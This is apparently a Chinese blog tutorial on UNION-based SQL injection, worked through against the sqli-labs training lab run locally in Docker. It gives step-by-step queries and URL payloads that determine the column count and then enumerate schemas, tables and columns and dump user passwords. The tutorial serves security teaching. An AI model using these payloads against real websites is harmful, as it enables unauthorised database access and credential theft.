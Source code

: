 ```yaml
---
layout: post
title: 1.2.1-SQL注入-SQL注入语法类型-union联合查询注入
categories:
  - - 安全
    - web安全
    - sql注入
tags: 
  - sql注入
  - web安全
abbrlink: 2839042794
date: 2018-06-16 00:00:00
description: SQL注入-SQL注入语法类型-union联合查询注入
---
```


## union查询注入

### union介绍

SQL UNION 操作符  
用于合并两个或多个SELECT语句的结果集。  
注意：  
SELECT语句必须拥有**相同数量**的列。  
列也必须拥有**相似的数据类型**。  
每条SELECT语句中列的**顺序必须相同**。  

默认情况，UNION操作符选取不同的值，允许重复的值，使用UNION ALL。  

	SELECT column_name(s) FROM table_name1
	UNION
	SELECT column_name(s) FROM table_name2

	SELECT column_name(s) FROM table_name1
	UNION ALL
	SELECT column_name(s) FROM table_name2

### union查询注入方法

#### UNION 注入应用场景  

前提：  
1.只要UNION连接的几个查询的字段数一样且列的数据类型转换没有问题，就可以查询出结果；
2.注入点页面有回显；

注意点：  
1.只有最后一个SELECT子句允许有ORDER BY；
2.只有最后一个SELECT子句允许有LIMIT；

	mysql> select * from users order by id union select 1,2,3;
	错误 orderby 要在最后一个子句后面

	mysql> select * from users limit 0,1 union select;
	错误 limit 要在最后一个子句后面

#### UNION注入过程-根据Sqli-labs Less1-4学习

tips：order by 猜出来的列数超过数据库表中的列数，报错并不能返回数据  

1. order by 确定列数
2. 观察页面返回，选取可以显示数据的位置，进行下一步的注入
3. 读库信息
4. 读表信息 
5. 读字段
6. 读数据


---



	docker run -dt --name sqli -p 90:80 --rm acgpiano/sqli-labs 
	docker ps -a
	docker exec -it <id> /bin/bash
	mysql -uroot -p
	show databases;
	use security;

	1. select * from users order by 4; // order by 判断多少列 从1～3 报错了确定有4列

	2. select * from users where id=1 union select 1,2,3;
	select * from users where id=-1 union select 1,(select version()),3;

	3. select * from users where id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata);

	4. select * from users where id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security'); // 当前库可以换成database() ''不识别可以换成十六进制0x

	5. select * from users where id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users');

	6. select * from users where id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users);


浏览器访问：  
http://127.0.0.1:90/Less-1/  

	http://127.0.0.1:90/Less-1/?id=1'
	http://127.0.0.1:90/Less-1/?id=1' order by 1 --+ // 二分法试
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,3 --+
	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(version())--+ // user() database()

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+

	http://127.0.0.1:90/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x7e,password) from users)--+

















